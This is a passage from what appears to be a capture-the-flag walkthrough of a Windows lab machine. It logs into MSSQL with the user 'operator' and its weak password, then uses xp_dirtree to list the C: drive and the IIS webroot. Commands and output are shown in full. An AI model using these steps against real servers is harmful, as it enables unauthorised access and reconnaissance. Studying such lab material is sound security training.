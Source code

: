 There are no kerberostable or AS-REP roastabke users. The MSSQL database is accessed again with the credentials of the "operator" user.

We have a guest user, but you can equally use MSSQL's "xp_dirtree" construct for listing files and folders.

```shell
$ python3 examples/mssqlclient.py 'operator:operator@10.10.11.236' -windows-auth
[...]
SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\', 1, 1
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0
```

It might be interesting to do the listing of files in the webroot of the webapp on port 80.

```shell
SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\inetpub', 1, 1
subdirectory   depth   file   
------------   -----   ----   
custerr            1      0   

history            1      0   

logs               1      0   

temp               1      0   

wwwroot            1      0   

SQL (MANAGER\Operator  guest@master)> EXEC MASTER.sys.xp_dirtree 'C:\inetpub\wwwroot', 1, 1
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

```